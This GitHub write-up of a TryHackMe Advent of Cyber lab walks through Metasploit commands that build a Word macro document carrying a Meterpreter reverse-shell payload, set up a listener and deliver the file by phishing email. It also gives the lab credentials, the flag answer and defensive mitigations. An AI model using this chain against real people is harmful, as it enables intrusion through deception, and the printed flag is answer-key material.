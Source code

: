 # 🎄 TryHackMe Advent of Cyber 2024 – Day 10: Phishing and Macro Exploitation

## Objectives 🎯

Day 10 focuses on understanding **phishing attacks** and how malicious macros can be embedded into Microsoft Office documents to execute payloads. The key tasks include:
- Learning how phishing exploits social engineering to bypass security.
- Creating a malicious macro-enabled document using Metasploit.
- Executing a phishing simulation to deliver the malicious document and gain a reverse shell.

## Steps 🚀

### **Step 1: Setting Up the Environment**
1. **Start the Machines:**
   - Click the **Start Machine** button to start the **target machine** attached to this task.
   - Launch the **AttackBox** by clicking the **Start AttackBox** button at the top of the page.
   
2. **Launch Metasploit Framework:**  
   Open the AttackBox terminal and start Metasploit:
   ```
   msfconsole
   ```

3. **Set Payload for Reverse Shell:**  
   Configure the payload:
   ```
   set payload windows/meterpreter/reverse_tcp
   ```

4. **Specify Exploit Module:**  
   Use the module to create a malicious macro:
   ```
   use exploit/multi/fileformat/office_word_macro
   ```

5. **Set Listener Details:**  
   Define the attacker IP (`LHOST`) and port (`LPORT`):
   ```
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   ```

6. **Generate Malicious Document:**  
   Generate the Word document with the embedded macro:
   ```
   exploit
   ```
   The document (`msf.docm`) is saved to `/root/.msf4/local/msf.docm`.

---

### **Step 2: Configuring the Listener**
1. **Start the Listener in Metasploit:**  
   Use the multi-handler module to listen for incoming connections:
   ```
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   exploit
   ```

2. **Wait for Connections:**  
   The listener is now ready to capture reverse shells once the document is executed.

### **Step 3: Sending the Malicious Document**
1. **Log In to the Mail Server:**  
   Open Firefox in the AttackBox and navigate to `http://MACHINE_IP`. Use the provided credentials:
   - **Email:** info@socmas.thm  
   - **Password:** MerryPhishMas!

2. **Compose a Phishing Email:**  
   Attach the malicious document (`msf.docm`) and send it to the target:
   - **Recipient:** marta@socmas.thm  
   - Rename the document to something plausible like `invoice.docm`.

3. **Social Engineering Message:**  
   Write a convincing message in the email body to entice the target to open the document.

### **Step 4: Exploitation**
1. **Target Opens the Document:**  
   Once Marta opens the document, the embedded macro executes, establishing a reverse shell connection.

2. **Access the Target System:**  
   In Metasploit, observe the successful connection:
   ```
   msf6 exploit(multi/handler) > exploit
   ```

3. **Navigate to the Desktop:**  
   Use the Meterpreter session to find the `flag.txt`:
   ```
   cd c:/users/Administrator/Desktop
   ls
   cat flag.txt
   ```

4. **Retrieve the Flag:**  
   The flag is displayed.

**Flag:** `THM{PHISHING_PAYLOAD_WIN}`

## Key Findings 🔑

1. **Phishing Attacks:**  
   Social engineering is a highly effective method to bypass technical defenses.
   
2. **Malicious Macros:**  
   Macros in Office documents can be weaponized to execute payloads and gain remote access.

3. **Reverse Shell:**  
   A reverse shell allows attackers to control a compromised system remotely, bypassing firewalls and NAT.

## Lessons Learned 🌟

### Key Takeaways
1. **Human Factor:**  
   Phishing attacks exploit human error, making security awareness training critical.
   
2. **Macro Exploitation:**  
   Embedding malicious macros in commonly used file formats can evade basic defenses.

3. **Phishing Prevention:**  
   - Use domain filtering to block typosquatting domains.
   - Enable email security tools like DKIM and SPF.
   - Educate users to identify phishing attempts.

### Mitigation Strategies
- Disable macros by default in Office applications.
- Monitor outgoing network connections for unusual activity.
- Deploy advanced endpoint protection solutions.

### Tools and Techniques 🛠️
1. **Metasploit Framework:**  
   Used to generate malicious documents and handle reverse shells.
2. **Email Server Simulation:**  
   Sent phishing emails to the target.
3. **Meterpreter:**  
   Exploited the connection to gain control over the target system.

## Final Thoughts 🎁

Day 10 provided hands-on experience with **phishing attacks** and the power of **macro-enabled documents** in social engineering exploits. This task emphasized the importance of user training and technical controls to mitigate phishing risks. The seamless integration of Metasploit made this challenge both informative and practical for real-world scenarios.

### Answers ✅
1. **What is the flag value inside the `flag.txt` file?**  
   **Answer:** `THM{PHISHING_PAYLOAD_WIN}`

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)  
- [Day 2: Log Analysis](day2.md)  
- [Day 3: Log Analysis](day3.md)  
- [Day 4: Atomic Red Team](day4.md)  
- [Day 5: XXE Exploitation](day5.md)  
- [Day 6: Sandboxes](day6.md)  
- [Day 7: AWS Log Analysis](day7.md)  
- [Day 8: Shellcode Execution](day8.md)  
- [Day 9: Risk Assessment Challenge](day9.md)  
- **Day 10: Phishing**
- [Day 11: Wi-Fi Attacks](day_11.md)
- [Day 12: Web Timing Attacks](day_12.md)
- [Day 13: Coming Soon!](day_13.md)
- [More Days to Come!](README.md)
